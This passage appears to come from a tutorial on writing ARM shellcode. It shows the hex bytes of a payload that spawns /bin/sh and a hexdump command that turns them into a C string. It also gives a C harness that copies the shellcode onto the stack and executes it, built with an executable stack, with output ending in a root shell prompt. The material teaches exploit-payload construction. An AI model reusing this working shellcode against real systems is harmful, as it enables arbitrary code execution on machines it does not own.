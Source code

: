     00000000  01 10 8f e2 11 ff 2f e1  02 a0 49 40 52 40 c1 71  |....../...I@R@.q|
    00000010  0b 27 01 df 2f 62 69 6e  2f 73 68 41              |.'../bin/shA|
    0000001c

    
We can use [hexdump(1)][hexdump] to extract out the bytes into a usable format.

    $ hexdump -v -e '"\\\x" 1/1 "%02x"' shell.bin ; echo
    \x01\x10\x8f\xe2\x11\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc1\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x41

And now we can try running our code from the stack of a normal program

    #include <stdio.h>
    #include <string.h>

    char *shellcode =
        "\x01\x10\x8f\xe2\x11\xff\x2f\xe1"
        "\x02\xa0\x49\x40\x52\x40\xc1\x71"
        "\x0b\x27\x01\xdf\x2f\x62\x69\x6e"
        "\x2f\x73\x68\x41";


    int main(int argc, char **argv)
    {
    	char buff[40];

    	strcpy(buff, shellcode);

    	printf("Length: %d\n", strlen(buff));

    	(*(void(*)()) buff)();

    	return 0;
    }

When building we need to tell the linker to allow an executable stack [execstack(8)][execstack]

    $ gcc shelltest.c -o shelltest -z execstack	
    
And run

    # ./shelltest
    Length: 28
    bash-4.4#



[objcopy]: http://man7.org/linux/man-pages/man1/objcopy.1.html
[hexdump]: http://man7.org/linux/man-pages/man1/hexdump.1.html
[readelf]: http://www.man7.org/linux/man-pages/man1/readelf.1.html
[ld]: http://man7.org/linux/man-pages/man1/ld.1.html
[execstack]: http://man7.org/linux/man-pages/man8/execstack.8.html
